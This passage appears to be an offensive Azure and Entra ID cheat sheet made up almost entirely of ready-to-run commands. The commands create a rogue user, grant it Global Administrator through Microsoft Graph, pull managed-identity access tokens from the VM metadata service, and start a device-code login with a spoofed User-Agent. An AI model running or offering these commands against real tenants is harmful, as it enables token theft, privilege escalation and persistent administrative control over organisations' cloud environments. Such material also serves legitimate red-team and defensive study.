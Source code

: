 ```bash
az ad user create --display-name <display name> --password <password> --user-principal-name <full upn>
```

Add user to Global Admin group ID via MS Graph API:

```powershell
$Body="{'principalId':'User Object ID', 'roleDefinitionId': '62e90394-69f5-4237-9190-012177145e10', 'directoryScopeId': '/'}”
az rest --method POST --uri https://graph.microsoft.com/v1.0/roleManagement/directory/roleAssignments --headers "Content-Type=application/json" --body $Body
```

### Metadata Service URL

```bash
http://169.254.169.254/metadata
```

Get access tokens from the metadata service

```bash
#### Managed Identity token retrieval
Invoke-WebRequest -Uri 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com' -Method GET -Headers @{Metadata="true"} -UseBasicParsing

#### full instance path information
$instance = Invoke-WebRequest -Uri 'http://169.254.169.254/metadata/instance?api-version=2018-02-01' -Method GET -Headers @{Metadata="true"} -UseBasicParsing
$instance
```

## Microsoft Device Code Login via PowerShell

Reference: https://bloodhound.readthedocs.io/en/latest/data-collection/azurehound.html

First, initiate a device code login and then navigate to https://microsoft.com/devicelogin and enter the code that is output from the script below.
```powershell
$body = @{
    "client_id" =     "1950a258-227b-4e31-a9cf-717495945fc2"
    "resource" =      "https://graph.microsoft.com"
}
$UserAgent = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"
$Headers=@{}
$Headers["User-Agent"] = $UserAgent
$authResponse = Invoke-RestMethod `
    -UseBasicParsing `
    -Method Post `
    -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" `
    -Headers $Headers `
    -Body $body
$authResponse
```

